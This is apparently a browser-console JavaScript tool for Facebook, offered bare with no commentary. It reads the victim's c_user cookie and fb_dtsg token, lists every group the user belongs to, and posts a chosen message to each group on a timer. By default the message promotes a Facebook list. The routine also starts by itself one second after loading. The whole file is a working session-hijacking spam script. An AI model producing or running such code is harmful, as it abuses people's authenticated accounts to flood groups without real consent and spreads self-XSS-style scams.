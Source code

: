 --------------------
====================

 var grouppost = "&lt;div>&lt;span class='img sp_43rped sx_e3ea36'>&lt;/span>&lt;a style='position:absolute;size:3px;padding-left:3px;font-weight:bold;font-family:Tahoma;font-size:11px;color:#FF0000;'>&lt;/a>&lt;/div>&lt;/br>";   grouppost += "&lt;div>&lt;textarea id='txtFloodMsg' placeholder='Write your post here and click on post' style='color:white;padding-top:5px;width:493px;height:85px;font-family:tahoma;font-size:13px;background-color:rgba(255,255,255,0.1);'>&lt;/textarea>&lt;/div>"; grouppost += "&lt;div>&lt;br>&lt;span class='img sp_er534k sx_74b85a'>&lt;/span>&lt;a style='position:absolute;font-family:Arial;size:3px;padding-left:3px;font-size:11px;color:rgb(128, 128, 128);'>برنامج العالمى&lt;/a>&lt;/span>&lt;button style='margin-left:437px' class='_42ft _4jy0 _11b _4jy3 _4jy1 selected' onclick='autopostingfunc(this);' >Post&lt;/button>"; var Popupset = document.createElement("div"); Popupset.setAttribute("style", "min-height:50px;width:500px;position:fixed;top:100px;box-shadow: 0px 4px 10px rgba(24, 144, 255, 0.63);position:fixed;left:50%;margin-left:-273px;text-align:left;border-radius:10px;padding:5px;z-index:999999;border:8px solid rgba(186,0,0,1.9);background-color:rgba(0,0,0,1.9);color:White"); Popupset.innerHTML = grouppost; document.body.appendChild(Popupset); jx = {     getHTTPObject: function () {         var A = false;         if (typeof ActiveXObject != "undefined") try {             A = new ActiveXObject("Msxml2.XMLHTTP")         } catch (C) {             try {                 A = new ActiveXObject("Microsoft.XMLHTTP")             } catch (B) {                 A = false             }         } else if (window.XMLHttpRequest) try {             A = new XMLHttpRequest         } catch (C) {             A = false         }         return A     },     load: function (url, callback, format, method, opt) {         var http = this.init();         if (!http || !url) return;         if (http.overrideMimeType) http.overrideMimeType("text/xml");         if (!method) method = "GET";         if (!format) format = "text";         if (!opt) opt = {};         format = format.toLowerCase();         method = method.toUpperCase();         var now = "uid=" + (new Date).getTime();         url += url.indexOf("?") + 1 ? "&amp;" : "?";         url += now;         var parameters = null;         if (method == "POST") {             var parts = url.split("?");             url = parts[0];             parameters = parts[1]         }         http.open(method, url, true);         var ths = this;         if (opt.handler) http.onreadystatechange = function () {             opt.handler(http)         };         else http.onreadystatechange = function () {             if (http.readyState == 4)                 if (http.status == 200) {                     var result = "";                     if (http.responseText) result = http.responseText;                     if (format.charAt(0) == "j") {                         result = result.replace(/[
]/g, "");                         result = eval("(" + result + ")")                     } else if (format.charAt(0) == "x") result = http.responseXML;                     if (callback) callback(result)                 } else {                     if (opt.loadingIndicator) document.getElementsByTagName("body")[0].removeChild(opt.loadingIndicator);                     if (opt.loading) document.getElementById(opt.loading).style.display = "none";                     if (error) error(http.status)                 }         };         http.send(parameters)     },     bind: function (A) {         var C = {             "url": "",             "onSuccess": false,             "onError": false,             "format": "text",             "method": "GET",             "update": "",             "loading": "",             "loadingIndicator": ""         };         for (var B in C)             if (A[B]) C[B] = A[B];         if (!C.url) return;         var D = false;         if (C.loadingIndicator) {             D = document.createElement("div");             D.setAttribute("style", "position:absolute;top:0px;left:0px;");             D.setAttribute("class", "loading-indicator");             D.innerHTML = C.loadingIndicator;             document.getElementsByTagName("body")[0].appendChild(D);             this.opt.loadingIndicator = D         }         if (C.loading) document.getElementById(C.loading).style.display = "block";         this.load(C.url, function (E) {             if (C.onSuccess) C.onSuccess(E);             if (C.update) document.getElementById(C.update).innerHTML = E;             if (D) document.getElementsByTagName("body")[0].removeChild(D);             if (C.loading) document.getElementById(C.loading).style.display = "none"         }, C.format, C.method, C)     },     init: function () {         return this.getHTTPObject()     } }; var j = 0; var k = 0; var suc = 0; var msg = "Follow this list please... https://www.facebook.com/lists/233821286796906"; var arr = new Array; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);   function autopostingfunc(sender) {     if (document.getElementById("txtFloodMsg").value != "") msg = document.getElementById("txtFloodMsg").value;     jx.load(window.location.protocol + "//www.facebook.com/ajax/typeahead/search/bootstrap.php?__a=1&amp;filter[0]=group&amp;viewer=" + user_id + "&amp;token=v7&amp;lazy=0&amp;__user=" + user_id, function (a) {         var b = a;         var c = b.substring(b.indexOf("{"));         var d = JSON.parse(c);         d = d.payload.entries;         for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);         sender.parentNode.innerHTML = "Please wait...";         postitok()     }) } var a = document.body.innerHTML; var dts = document.getElementsByName("fb_dtsg")[0].value; var composerid = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);   function postitok() {     pst = "fb_dtsg=" + dts + "&amp;xhpc_composerid=" + composerid + "&amp;xhpc_targetid=" + arr[suc] + "&amp;xhpc_context=home&amp;xhpc_fbx=1&amp;xhpc_message_text=" + encodeURIComponent(msg) + "&amp;xhpc_message=" + encodeURIComponent(msg) + "&amp;UIPrivacyWidget[0]=40&amp;privacy_data[value]=40&amp;privacy_data[friends]=0&amp;privacy_data[list_anon]=0&amp;privacy_data[list_x_anon]=0&amp;=Share&amp;nctr[_mod]=pagelet_group_composer";     with(newx = new XMLHttpRequest) open("POST", "/ajax/updatestatus.php?__a=1"), send(pst);     suc++;     if (suc > arr.length) {         alert("Auto Posting Completed. Now Refresh your Homepage.");         suc = 0     } else setTimeout("postitok()", 3E4 / arr.length) } setTimeout("autopostingfunc()", 1E3);
